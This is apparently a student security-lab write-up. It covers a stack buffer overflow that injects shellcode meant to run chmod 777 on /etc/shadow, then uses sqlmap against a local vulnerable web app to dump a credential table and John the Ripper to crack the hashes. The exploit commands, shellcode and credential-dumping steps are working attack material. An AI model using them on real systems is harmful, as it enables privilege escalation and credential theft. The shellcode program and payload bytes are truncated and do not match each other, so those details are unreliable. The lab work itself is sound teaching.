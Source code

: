 # Lab-IS

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### Description
We will demonstrate a buffer overflow vulnerability in a C program and inject shellcode to escalate privileges by changing the permissions of /etc/shadow to 777. The approach chosen for this attack is code injection. We will compile both the vulnerable C program and the shellcode, then trigger the vulnerability to execute the shellcode.

**1. Compile the vulnerable C program**
We begin by compiling the vulnerable C program with no security protections such as stack canaries or address space layout randomization (ASLR):

``` 
    gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```
**Explanation:**

`-fno-stack-protector`: Disables stack protection mechanisms.

`-z execstack`: Allows the execution of code on the stack, necessary for the shellcode injection.


**2. Compile the shellcode program**

We will now compile the shellcode into an executable binary. This shellcode will execute `chmod 777 /etc/shadow`.

```
    gcc -o shellcode shellcode.c -z execstack
```

**3. Construct the malicious input**

To exploit the buffer overflow, we need to overwrite the return address of the vulnerable program's buffer with the address pointing to the shellcode.

```
    python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")'
```

**Explanation:**

- `"A" * 20`: Fills the buffer to the overflow point.

- `"\x90" * 100`: A NOP slide to land on the shellcode.

- The shellcode bytes, which execute `chmod 777 /etc/shadow`.

**4. Execute the attack**

Now, we run the vulnerable program with our constructed payload:

`./vulnerable $(python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")')`

**Output**

Once executed successfully, the permissions of /etc/shadow will be changed to 777, allowing full read, write, and execute permissions.

**Conclusion**: In this demonstration, we successfully exploited a buffer overflow vulnerability by injecting shellcode. The payload caused the chmod 777 /etc/shadow command to execute, demonstrating the privilege escalation attack.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- Use them command below to get information about all available databases
```
    run `python3 sqlmap.py -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```
![image](images/image1.png)
- The back-end database is: `MySQL`, it has two database is
  - infomation_schema
  - sqllab_users
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

After we retrieved the available databases (information_schema and sqllab_users), next exploit further the sqllab_users table

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users --tables
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users -T credential --dump
```

On output, it can be observed that there's only one table (credential) in the sqllab_users database, and using the second command we can retrieve the full information from the credential table with the password column still being hashed.

![image](images/image2.png)
![image](images/image5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```

![image](images/image3.png)

Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1

```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!

![image](images/image6.png)
